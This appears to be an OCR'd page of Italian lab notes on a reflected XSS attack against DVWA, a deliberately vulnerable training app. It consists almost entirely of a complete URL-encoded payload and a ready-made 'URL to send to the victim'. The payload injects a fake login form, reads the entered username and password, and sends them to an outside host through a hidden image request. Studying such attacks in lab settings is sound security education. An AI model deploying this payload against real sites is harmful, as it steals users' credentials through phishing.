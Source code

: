 





- attacco completo, URLencoded







%3Cscript%3Efunction%20hack()%7Bstringa%3D%22%3Fusername%3D%22%2B%20document.forms%5B1%5D.user.value%20%2B%20%22%26password%3D%22%20%2B%20document.forms%5B1%5D.pass.value%20%2B%20%22%22%3B%20evilurl%3D%22http%3A%2F%2Fcris.unimo.it%2Ffakeimage.img%22%2B%20stringa%20%2B%20%22%22%3B%20var%20evilimg%3Ddocument.createElement(%27img%27)%3B%20evilimg.setAttribute(%22src%22%2C%20evilurl)%3B%20evilimg.setAttribute(%22display%22%2C%22none%22)%3B%20document.body.appendChild(evilimg)%3B%20document.getElementsByName(%22XSS%22)%5B0%5D.style.visibility%3D%22visible%22%3B%20injectedform%3Ddocument.getElementById(%22injectedform%22)%3B%20injectedform.style.visibility%3D%22hidden%22%3B%7D%20document.getElementsByName(%22XSS%22)%5B0%5D.style.visibility%3D%22hidden%22%3B%3C%2Fscript%3E%3Cform%20id%3D%22injectedform%22%3E%3Cbr%3E%3Cbr%3E%3CHR%3E%3CH3%3EThis%20feature%20requires%20account%20login%3A%3C%2FH3%20%3E%3Cbr%3E%3Cbr%3EEnter%20Username%3A%3Cbr%3E%3Cinput%20type%3D%22text%22%20id%3D%22user%22%20name%3D%22user%22%3E%3Cbr%3EEnter%20Password%3A%3Cbr%3E%3Cinput%20type%3D%22password%22%20name%20%3D%20%22pass%22%3E%3Cbr%3E%3Cinput%20type%3D%22button%22%20name%3D%22login%22%20value%3D%22login%22%20onclick%3D%22hack()%22%3E%3C%2Fform%3E%3Cbr%3E%3Cbr%3E%3CHR%3E







- URL da inviare alla vittima







http://172.25.1.116/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Efunction%20hack()%7Bstringa%3D%22%3Fusername%3D%22%2B%20document.forms%5B1%5D.user.value%20%2B%20%22%26password%3D%22%20%2B%20document.forms%5B1%5D.pass.value%20%2B%20%22%22%3B%20evilurl%3D%22http%3A%2F%2Fcris.unimo.it%2Ffakeimage.img%22%2B%20stringa%20%2B%20%22%22%3B%20var%20evilimg%3Ddocument.createElement(%27img%27)%3B%20evilimg.setAttribute(%22src%22%2C%20evilurl)%3B%20evilimg.setAttribute(%22display%22%2C%22none%22)%3B%20document.body.appendChild(evilimg)%3B%20document.getElementsByName(%22XSS%22)%5B0%5D.style.visibility%3D%22visible%22%3B%20injectedform%3Ddocument.getElementById(%22injectedform%22)%3B%20injectedform.style.visibility%3D%22hidden%22%3B%7D%20document.getElementsByName(%22XSS%22)%5B0%5D.style.visibility%3D%22hidden%22%3B%3C%2Fscript%3E%3Cform%20id%3D%22injectedform%22%3E%3Cbr%3E%3Cbr%3E%3CHR%3E%3CH3%3EThis%20feature%20requires%20account%20login%3A%3C%2FH3%20%3E%3Cbr%3E%3Cbr%3EEnter%20Username%3A%3Cbr%3E%3Cinput%20type%3D%22text%22%20id%3D%22user%22%20name%3D%22user%22%3E%3Cbr%3EEnter%20Password%3A%3Cbr%3E%3Cinput%20type%3D%22password%22%20name%20%3D%20%22pass%22%3E%3Cbr%3E%3Cinput%20type%3D%22button%22%20name%3D%22login%22%20value%3D%22login%22%20onclick%3D%22hack()%22%3E%3C%2Fform%3E%3Cbr%3E%3Cbr%3E%3CHR%3E






- ottimizzazioni: tutto nello script




